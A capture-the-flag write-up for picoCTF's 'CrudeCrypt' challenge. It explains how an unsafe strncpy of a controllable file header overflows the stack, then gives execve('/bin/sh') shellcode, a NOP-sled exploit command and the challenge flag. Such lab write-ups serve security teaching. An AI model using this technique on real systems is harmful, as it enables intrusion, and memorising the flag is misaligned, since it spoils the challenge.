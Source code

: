 **Name**: CrudeCrypt  
**Points**: 180  
**Type**: Binary Exploitation  
**Challenge**:  
Without proper maintainers, development of [Truecrypt](http://truecrypt.sourceforge.net/) has stopped! CrudeCrypt has emerged as a notable alternative in the open source community. The author has promised it is 'secure' but we know better than that. Take a look at the [code](https://picoctf.com/problem-static/binary/CrudeCrypt/crude_crypt.c) and read the contents of `flag.txt` from the server! The problem is at /home/crudecrypt/crude_crypt on the shell server.  
**Hint**:  
You can never trust user input!  
**Files**: crude_crypt.c

*****
# Code review

What main does:
- check if there are 3 arguments
- check if 1st argument is "encrypt" or "decrypt", and assign action function pointer
- if encrypt, setegid()
- open 2nd and 3rd argument as files
- read out file_password from stdin (max 128 bytes; possibly not null terminated)
- digest = MD5(password)
- call action(infile, outfile, digest)
- cleanup + exit

What decrypt_file does:
- get file size of infile (using fstats)
- calloc buffer of that size
- copy contents of infile to buffer
- try decrypt_buffer (this function works correctly)
    if fail, return
- create file_header based on decrypted data; we can put whatever we want in the header!
- check if magic number is correct
    if not, return
- (print error message if hostname doesn't match)
- write_size = MIN(header->file_size, infile size - header size); possible signed/unsigned bug!
- write decrypted data to outfile

What check_hostname does:
- unsafe strncpy from header->host to buffer of size 32
- call safe_gethostname
- return after calling strcmp

*****
# Exploitation

The bug we are going to exploit is in the function check_hostname. The strncpy is used unsafely, because it is being told to copy the contents from src to dest (for the length of **src**). A safe usage would copy the contents from src to dest (for the length of **dest**)! Using strncpy in this way is the same as using strcpy, which is unsafe if src is provided by the user. By copying a src string that is larger than dest, we can cause a stack overflow which we can use to overwrite eip.

We can exploit this, because after the decryption of the infile, the header is created based on the decrypted data without any checks. This means we control whatever is in the header struct. This includes host, which is usally a 32-byte, null-terminated string. By removing the null bytes at the end, we can increase the length of the host string to cause the stack overflow.

In order to verify if this bug works, we will try to encrypt a file full of "a"s, but right before the call to encrypt the data, we will tamper with the header. This will result in an encrypted file that will result in a SEGFAULT when decrypted. I will use password "a", but it doesn't really matter.

Let's try it:
```bash
$ cp -r /home/crudecrypt/ /tmp/delilled
$ cd /tmp/delilled/crudecrypt
$ python -c 'print "a"*100' > a_file
$ #<use gdb to read a_file, overwrite any null characters in host, and store the result in enc_file>
$ ulimit -c unlimited
$ ./crude_crypt decrypt enc_file dec_file
-> File password: a
Segmentation fault (core dumped)
$ gdb -q crude_crypt core 
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x61616161 in ?? ()
```

Ok, so we know we have control of eip and the stack. After checking that the stack is executable ($ readelf crude_crypt -a | grep GNU_STACK), which it is, we will place nop slide + shellcode in our input and overwrite eip with the address of the middle of the nop slide.

Using gdb, we can determine that the hots variable is located at 0xffffd5c0 and the return address is located at 0xffffd60c. If we provide a reasonable nop sled (32 bytes), this should bring the address of the middle of the nop sled to 0xffffd64c. It doesn't really matter what we use to fill the host variable before encryption, as long as there are no string terminators (I will be using "a"s).

##### The structure of the exploit data will be:
(sled address)\*8 + (\x90)\*128 + shellcode

##### Shellcode:
\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80

Executing the exploit:
```bash
$ python -c 'print "\x4c\xd6\xff\xff"*8 + "\x90"*128 + "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"' > exploit_data
$ <use gdb to read exploit_data, overwrite any null characters in host, and store the result in exp_file>
$ cd /home/crude_crypt
$ ./crude_crypt decrypt /tmp/delilled/crudecrypt/exp_file /tmp/delilled/crudecrypt/dec_file
-> File password: a
$ cat flag.txt
writing_software_is_hard
```

Note: If you're having trouble with landing on the nop sled, you can push it around using the arguments. Since the 3rd argument (outfile) doesn't matter, as long as it can be opened, you could try playing with this. Alternatively, you could create a bigger nop sled.

*****

REFERENCES:
http://codewiki.wikidot.com/c:struct-stat
http://linux.die.net/man/2/fstat
http://mcrypt.hellug.gr/lib/mcrypt.3.html

